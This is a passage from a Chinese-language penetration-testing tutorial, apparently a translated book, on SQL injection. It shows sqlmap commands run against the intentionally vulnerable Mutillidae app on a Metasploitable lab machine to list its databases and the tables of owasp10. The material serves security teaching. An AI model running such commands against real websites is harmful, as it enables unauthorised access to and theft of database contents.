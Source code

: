 ## 针对数据库的注入攻击

网站中最常见的和可利用的漏洞是注入漏洞，当受害者网站不监视用户输入时，就会发生注入漏洞，从而允许攻击者与后端系统进行交互。攻击者可以手工处理输入数据以修改或窃取数据库中的内容，将可执行文件放到服务器上，或向操作系统发出命令。

评估 SQL 注入漏洞最有用的工具之一是**sqlmap**，这是一种 Python 工具，可自动侦察和利用 Firebird、Microsoft SQL、MySQL、Oracle、PostgreSQL、Sybase 和 SAP MaxDB 数据库。

我们将演示针对 Mutillidae 数据库的 SQL 注入攻击。第一步是确定 web 服务器、后端数据库管理系统和可用数据库。

启动 Metasploitable 虚拟机，并访问 Mutillidae 网站。完成后，查看网页以确定接受用户输入的网页（例如，接受远程用户用户名和密码的用户登录表单）；这些页面可能容易受到 SQL 注入的攻击。然后，打开 Kali，在命令提示符下输入以下内容（使用适当的目标 IP 地址）：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' --dbs 

```

Sqlmap 将返回数据，如以下屏幕截图所示：

![Injection attacks against databases](img/3121OS_09_20.jpg)

最有可能存储应用程序数据的数据库是`owasp10`数据库；因此，我们将使用以下命令检查该数据库的所有表：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' –D owasp10 --tables 

```

执行该命令返回的数据显示在以下屏幕截图中：

![Injection attacks against databases](img/3121OS_09_21.jpg)
